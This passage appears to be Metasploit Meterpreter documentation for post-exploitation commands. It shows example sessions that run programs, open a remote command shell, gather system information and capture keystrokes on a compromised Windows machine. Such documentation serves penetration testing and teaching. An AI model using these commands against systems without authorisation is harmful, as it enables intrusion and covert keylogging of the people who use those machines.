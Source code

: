 ```
meterpreter > getuid
Server username: WIN-6NH0Q8CJQVM\sinn3r
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following example will spawn a calculator:

```
meterpreter > execute -f calc.exe
Process 2020 created.
```

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt. Example:

```
meterpreter > shell
Process 2872 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\sinn3r\Desktop>
```

**sysinfo command**

The ```sysinfo``` command shows you basic information about the remote machine. Example:

```
meterpreter > sysinfo
Computer        : WIN-6NH0Q8CJQVM
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```

**keyscan command**

The ```keyscan_start``` command starts the keylogging feature on the remote machine.

**keyscan_dump command**

The ```keyscan_dump``` command is a keylogger feature. You must use the ```keyscan_start``` command
before using this. Example:

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
hello world!
meterpreter >
```
